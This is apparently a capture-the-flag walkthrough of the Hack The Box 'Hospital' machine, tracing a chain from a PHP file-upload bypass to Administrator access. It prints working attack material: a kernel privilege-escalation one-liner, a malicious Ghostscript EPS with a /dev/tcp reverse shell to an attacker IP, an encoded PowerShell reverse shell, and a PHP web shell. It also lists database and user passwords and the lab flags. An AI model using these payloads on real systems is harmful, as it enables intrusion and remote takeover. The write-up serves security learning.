

## Overview

Hospital is a medium-difficulty Windows machine that hosts an Active Directory environment, a web server, and a `RoundCube` instance. The web application has a file upload vulnerability that allows the execution of arbitrary PHP code, leading to a reverse shell on the Linux virtual machine hosting the service. Enumerating the system reveals an outdated Linux kernel that can be exploited to gain root privileges, via `[CVE-2023-35001](https://nvd.nist.gov/vuln/detail/CVE-2023-35001)`. Privileged access allows `/etc/shadow` hashes to be read and subsequently cracked, yielding credentials for the `RoundCube` instance. Emails on the service hint towards the use of `GhostScript`, which opens up the target to exploitation via `[CVE-2023-36664](https://nvd.nist.gov/vuln/detail/CVE-2023-36664)`, a vulnerability exploited by crafting a malicious Embedded PostScript (EPS) file to achieve remote code execution on the Windows host. System access is then obtained by either of two ways: using a keylogger to capture `administrator` credentials, or by abusing misconfigured `XAMPP` permissions.



**Name -** Hospital

**IP -** 10.10.11.241

**Difficulty -** Medium

**OS -** Windows

**Points -** 30

## Information Gathering

### Port Scan

Basic Scan

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-04-08 14:29 +06
Nmap scan report for 10.10.11.241
Host is up (0.053s latency).
Not shown: 980 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
443/tcp  open  https
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1801/tcp open  msmq
2103/tcp open  zephyr-clt
2105/tcp open  eklogin
2107/tcp open  msmq-mgmt
2179/tcp open  vmrdp
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 4.43 seconds
```

Version Scan

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-04-08 14:35 +06
Nmap scan report for 10.10.11.241
Host is up (0.056s latency).

PORT     STATE SERVICE           VERSION
22/tcp   open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-04-08 15:31:44Z)
135/tcp  open  msrpc             Microsoft Windows RPC
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
1801/tcp open  msmq?
2103/tcp open  msrpc             Microsoft Windows RPC
2105/tcp open  msrpc             Microsoft Windows RPC
2107/tcp open  msrpc             Microsoft Windows RPC
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2024-04-08T15:34:06+00:00
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2024-04-07T14:15:55
|_Not valid after:  2024-10-07T14:15:55
8080/tcp open  http              Apache httpd 2.4.55 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.55 (Ubuntu)
| http-title: Login
|_Requested resource was login.php
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/8%Time=6613AC4E%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h56m21s, deviation: 0s, median: 6h56m21s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-04-08T15:34:08
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 190.44 seconds

```

### **HTTP Enumeration**

There are two ports open 443 and 8080, 8080 port looks interesting


I created one user and logged into the site.


File upload is available. I tried to upload an image file and it worked. Then I tried to somehow upload a php file but it was giving error.


After bruteforcing the extension, phar was working.


There was also an uploads folder where the files were stored


As the php executed, I tried to go for a reverse shell. But as many functions were disable, It was tough


From [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass), I found a way


And it worked


Now it's time to get a reverse shell


## Getting User.txt

Linpeas gave the db credentials


> DB User - root
> DB Pass - my$qls3rv1c3!

I used those credentials to dump the db

```shell
www-data@webserver:/dev/shm$ mysql -u root -p
mysql -u root -p
Enter password: my$qls3rv1c3!

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 49
Server version: 10.11.2-MariaDB-1 Ubuntu 23.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| hospital           |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.002 sec)

MariaDB [(none)]> use hospital;
use hospital;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [hospital]> show tables;
show tables;
+--------------------+
| Tables_in_hospital |
+--------------------+
| users              |
+--------------------+
1 row in set (0.000 sec)

MariaDB [hospital]> select * from users;
select * from users;
+----+----------+--------------------------------------------------------------+---------------------+
| id | username | password                                                     | created_at          |
+----+----------+--------------------------------------------------------------+---------------------+
|  1 | admin    | $2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2 | 2023-09-21 14:46:04 |
|  2 | patient  | $2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO | 2023-09-21 15:35:11 |
|  3 | admin1   | $2y$10$OzBLkkpPxZDypn4rfark7OjNP6hu.xQxOgElP/AJiuQ8JEEh8WCi2 | 2024-04-08 16:17:32 |
|  4 | amdin2   | $2y$10$etvJhpL/Gab3XdxOv54HoOQwVQ3jh.xK/WC4j1w0jPWvrWIivCTjS | 2024-04-08 16:29:27 |
|  5 | pankaj   | $2y$10$XBPIm4NivxIBo4P0qfSuhe9UbNEgPRRmmhOcahDF98TGCibkqDECO | 2024-04-08 17:03:34 |
|  6 | test     | $2y$10$nZ4WVP.byT7xQrraf7r23.MZ38UCPjU6edwwmee0kiiV8GFk.fOE2 | 2024-04-08 17:40:51 |
+----+----------+--------------------------------------------------------------+---------------------+
6 rows in set (0.000 sec)

MariaDB [hospital]>
```

Turns out to be not useful. So, I went for the kernel exploit. The version is vulnerable with gameoverlayfs exploit https://medium.com/@0xrave/ubuntu-gameover-lay-local-privilege-escalation-cve-2023-32629-and-cve-2023-2640-7830f9ef204a

```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

and with that, I managed to get the root shell on the system.


The system doesn't contain any flag. But I have the hash of the drwilliams user which can be used later on the 443 port.


The pass is - `qwe123!@#`

I used the credentials on port 443


It's a mail server and found the following important mail


It wants us to send an ".eps" file which will be executed with Ghostscript. Searching on google on ghostscript, I found a vulnerability with `CVE-2023-36664`


So, I clone the github [repo](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection/tree/main) and generate a .eps file with reverse shell


Then I sent that file to an email but it didn't work


I found out that the eps file contains a rev shell for linux. But the main system is windows

```eps
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: 0 0 300 300
%%Title: Welcome EPS

/Times-Roman findfont
24 scalefont
setfont

newpath
50 200 moveto
(Welcome at vsociety!) show

newpath
30 100 moveto
60 230 lineto
90 100 lineto
stroke
(%pipe%UNIX_REV_SHELL_PAYLOAD=f"0<&196;exec 196<>/dev/tcp/10.10.14.109/9001; sh <&196 >&196 2>&196") (w) file /DCTDecode filter
showpage%
```

So, This time I tried again with a windows reverse shell

```powershell
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQAxAC4AMgA0ADUAIgAsADgAOQA4ADkAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```


But this payload also didn't work. I don't know the reason though. So, I tried the classical way. I am uploading netcat.exe file and with that will get a reverse shell


And finally, I got a reverse shell


Then I got the user flag - `df555847451cf96213d84ea878d74758`


## Getting root.txt

Now, the mail server is running as Administrator and the htdocs file is writable. So, I uploaded a shell.php file with the following contents on the htdocs folder.

```php
<?php echo fread(popen($_GET['cmd'], "r"), 4096); ?>
```


And, Finally Got the administrator privilege


Now, time to get the root flag `849e5a8ca0e4ffb25afc9953d96ad44c`


## Flags

**user.txt -** df555847451cf96213d84ea878d74758

**root.txt -** 849e5a8ca0e4ffb25afc9953d96ad44c
